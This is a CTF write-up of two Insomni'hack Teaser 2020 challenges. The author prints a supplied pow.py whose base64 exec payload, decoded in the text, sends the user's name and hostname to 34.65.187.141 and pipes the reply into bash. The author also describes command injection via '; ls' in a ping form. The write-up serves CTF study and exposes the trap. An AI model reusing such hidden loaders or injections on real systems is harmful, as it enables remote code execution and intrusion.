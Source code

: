 # Insomni'hack Teaser 2020

This was an extremely difficult CTF (by my standards) with a weight of ```52.33``` so I was only able to do two trivial challenges ```welcome``` & ```LowDeep``` and scored a rank of ```114```. I was trying for ```Kaboom``` & ```secretus``` as well, but wasn't able to do much within the time frame, will upsolve and post them here when done.

## warmup

### Welcome 36 pts.
>This year we added a Proof of Work to some of our challenges.
>
>Just run python pow.py <target>, were target is the value provided by the server and get the flag.
>
> ```nc welcome.insomnihack.ch 1337```

**pow.py**
```
#!/usr/bin/python3

import base64
import hashlib
import os
import sys 

target = sys.argv[1]
i = 0 

def pow():
    global i, target
    while True:
        m = hashlib.md5()
        m.update(str(i).encode())
        h = m.hexdigest()
        if h[:6] == target:
            exec(base64.b64decode('Z2xvYmFsIGk7aSs9MTMzNzt4PW9zLm5hbWU7eCs9Ii8kKHdob2FtaSlAJChob3N0bmFtZSl8YmFzaCJpZiB4IT0ibnQiZWxzZSIvJVVTRVJOQU1FJUAlVVNFUkRPTUFJTiUiO29zLnN5c3RlbSgiY3VybCAtTnMgMzQuNjUuMTg3LjE0MS8iK3gp'))
            print(i)
            exit(0)
        i += 1

if __name__ == '__main__':
    pow()
```

We see that there's a base64 encoded string which is being decode and executed.

```
$ echo Z2xvYmFsIGk7aSs9MTMzNzt4PW9zLm5hbWU7eCs9Ii8kKHdob2FtaSlAJChob3N0bmFtZSl8YmFzaCJpZiB4IT0ibnQiZWxzZSIvJVVTRVJOQU1FJUAlVVNFUkRPTUFJTiUiO29zLnN5c3RlbSgiY3VybCAtTnMgMzQuNjUuMTg3LjE0MS8iK3gp | base64 -d
global i;i+=1337;x=os.name;x+="/$(whoami)@$(hostname)|bash"if x!="nt"else"/%USERNAME%@%USERDOMAIN%";os.system("curl -Ns 34.65.187.141/"+x)
```

It sends our username and hostname to ```34.65.187.141``` and blocks us from getting the flag, even after getting the proof of work. So the solution is to simply comment out that line.

```
$ nc welcome.insomnihack.ch 1337

======================================================================
============   Welcome to the Insomni'Hack Teaser 2020!   ============
======================================================================

Give me an input whose md5sum starts with "f49122" and get the flag ;)
7319391

MITM are real: check SHA, check code, ...
```

```
$ python pow.py f49122
7319391
```

```INS{Miss me with that fhisy line}```

## web

### LowDeep 36 pts.

> Try out our new ping platform: lowdeep.insomnihack.ch/

The websites asks us to provide an IP address to ping. Instead of providing an IP address if we provide ```; ls``` we get the list of files in the current directory. One of the files is ```print-flag```.

![](lowdeep.png)

Downloading and running that file gives us the flag.

```
$ ./print-flag 
INS{Wh1le_ld_k1nd_0f_forg0t_ab0ut_th3_x_fl4g}
```
